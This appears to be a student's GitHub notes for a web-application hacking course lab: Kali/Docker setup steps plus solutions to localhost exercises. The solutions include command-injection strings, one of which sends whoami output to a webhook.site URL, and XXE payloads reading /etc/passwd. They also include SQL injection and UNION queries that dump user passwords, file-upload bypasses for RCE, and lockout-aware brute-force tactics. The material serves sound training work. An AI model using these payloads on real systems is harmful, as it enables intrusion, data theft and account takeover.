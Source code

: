 # Web App Lab Setup

> **Lab Requirements**
>
> - 1 Kali Linux VM
> - [pimpmykali](https://github.com/Dewalt-arch/pimpmykali/blob/master/pimpmykali.sh)
>   - (optional) [peh-web-labs.tar.gz](https://cdn.fs.teachablecdn.com/CbIyLkOuS4GUH7TNFTFg)
> - [Burp Suite](https://portswigger.net/burp/releases)

- Run `pimpmykali.sh` with `E` selection for **PEH Course WebApp Labs**

```bash
# Clone a Github repository in the "/opt" dir
cd /opt
sudo rm -rf pimpmykali/
sudo git clone https://github.com/Dewalt-arch/pimpmykali

sudo /opt/pimpmykali/pimpmykali.sh
# Run menu option E for the WebApp Labs
# The labs start automatically

# To START the labs
cd $HOME/peh/labs
./start-peh-labs.sh

# To (only) STOP the labs
sudo docker stop $(sudo docker ps -aq)

# To STOP and CLEANUP the labs
cd $HOME/peh/labs
./cleanup-peh-labs.sh
# This script removes ALL DOCKER CONTAINERS and NETWORKS!!!
```

- Run Burp Suite and open its proxy browser
- Browse to `http://localhost`
- The database can be initialized/reset at `http://localhost/init.php`

---

> # Lab solutions
>
> ## Command Inj 0x02
>
> `https://tcm-sec.com/& whoami& asd`
>`https://tcm-sec.com/ | sleep 10 | asd`
> 
>`https://webhook.site/<id>/?`whoami``
> 
> ## Command Inj 0x03
> 
> `45123)^2))}';whoami;#`
> 
>## File upload 0x01
> 
>- Intercept
> - Change contents
> - Or turn off JS
> 
> ## File upload 0x02
>
> - Bypass the client-side again
>- Intercept and change the content-type to image/png or image/jpeg
> 
>## File upload 0x03
> 
>- Bypass the client-side again
> - Intercept and change the content-type again
>- Use an extension that's not in the blocklist (.phtml)
> 
>## Authentication 0x01
> 
>- Brute force
> 
>## Authentication 0x02
> 
>- MFA code, switch username (code is OK for all users)
> - Or, just brute the code
>
> ## Authentication 0x03
> 
>- Account lockout after 5 attempts, therefore brute the top 4 passwords against a username list
> 
>- common password list:
> 
> ```
>password
> password123
>letmein
> manchesterunited
>```
> 
>- common usernames list: `/usr/share/seclists/Usernames/Names/names.txt`
> 
>## XXE, IDOR, capstone
> 
> ### XXE 0x01
> 
>```
> <?xml version="1.0" encoding="UTF-8"?>
><!DOCTYPE creds [
> <!ELEMENT creds ANY >]>
> <creds><user>username</user><password>pass</password></creds>
>```
> 
>```
> <?xml version="1.0" encoding="UTF-8"?>
> <!DOCTYPE creds [
> <!ELEMENT creds ANY >
><!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
> <creds><user>&xxe;</user><password>pass</password></creds>
>```
> 
>### IDOR
> 
>`fuzz the parameter`
> 
> - find an admin user (or all of the admin users)
>
> ### Capstone
>
> SQLi to get into admin panel
>File upload to get RCE
> 
>- XSS in the message alert
> - XSS in account names probably? need to test
> 
> - brute force user accounts
> 
> - SQLi on adding rating
> 
>`http://localhost/capstone/coffee.php?coffee=3' or 1=1-- -`
> 
>`http://localhost/capstone/coffee.php?coffee=1%27%20union%20select%20null,username,password,null,null,null,null%20from%20users--%20-`
> 
># To do list
> 
>- file upload capstone
> - auth0x03 testing